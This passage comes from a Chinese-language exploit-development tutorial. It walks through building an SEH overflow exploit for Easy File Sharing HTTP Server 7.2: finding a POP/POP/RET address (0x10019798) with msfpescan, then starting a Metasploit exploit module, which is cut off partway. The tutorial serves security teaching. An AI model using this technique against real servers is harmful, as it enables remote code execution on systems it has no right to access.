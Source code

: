 我们可以使用`-s`开关通过`msfpescan`轻松找到 POP/POP/RET 指令序列。我们在`ImageLoad.dll`文件中使用它，如下所示：

![](img/5ad5e795-2155-47f0-b223-6c82bd0e9d4d.png)

让我们使用一个安全地址，消除任何可能导致 HTTP 协议问题的地址，例如连续重复零，如下所示：

![](img/71da2ab5-e7dc-4092-9ce3-df3e361b7481.png)

我们将使用`0x10019798`作为 POP/POP/RET 地址。我们现在有两个用于编写漏洞的关键组件，它们是偏移量和要加载到 catch 块的地址，catch 块是 POP/POP/RET 指令的地址。我们只需要短跳转指令，它将被加载到下一条 SEH 记录的地址中，这将帮助我们跳转到外壳代码。Metasploit 库将使用内置函数为我们提供跳转指令。

# 编写 Metasploit SEH 漏洞利用模块

现在我们已经有了利用目标应用程序的所有重要数据，让我们继续在 Metasploit 中创建一个利用模块，如下所示：

```
class MetasploitModule < Msf::Exploit::Remote 

  Rank = NormalRanking 

  include Msf::Exploit::Remote::Tcp 
  include Msf::Exploit::Seh 

  def initialize(info = {}) 
    super(update_info(info, 
      'Name'           => 'Easy File Sharing HTTP Server 7.2 SEH Overflow', 
      'Description'    => %q{ 
        This module demonstrate SEH based overflow example 
      }, 
      'Author'         => 'Nipun', 
      'License'        => MSF_LICENSE, 
      'Privileged'     => true, 
      'DefaultOptions' => 
        { 
          'EXITFUNC' => 'thread', 
     'RPORT' => 80, 
```